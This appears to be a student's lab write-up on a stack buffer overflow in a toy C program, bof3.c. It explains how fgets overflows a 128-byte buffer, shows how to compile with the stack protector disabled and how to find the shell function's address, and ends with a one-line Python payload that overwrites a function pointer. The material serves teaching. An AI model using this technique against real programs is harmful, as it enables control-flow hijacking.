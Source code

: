 # Understand bof3.c 
In this case, we see that the function is treated like a variable, so we only need to change the memory address of the variable to transfer control.
## Stackframe

## Vulnerability
The function fgets(buf, 133, stdin) receives a maximum of 133 bytes, but buf only has 128 bytes, resulting in 5 extra bytes and causing a buffer overflow.
# Start attacking bof3.c 
## Compiling the file without stack restriction
`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`  
## In order to attack the file, we need to know the address of the shell we are using
- Use gdb to find the address of the shell function: 0x0804845b  
`gdb bof3.out`  

`disas shell`  

- Or we use at outer by using `objdump -d bof3.out | grep shell`  

## To calculate how many bytes to inject to replace a function's return address with the shell function address, we need to determine
`  echo $(python -c "print('a'*128+'\x5b\x84\x04\x08')") | ./bof3.out`  

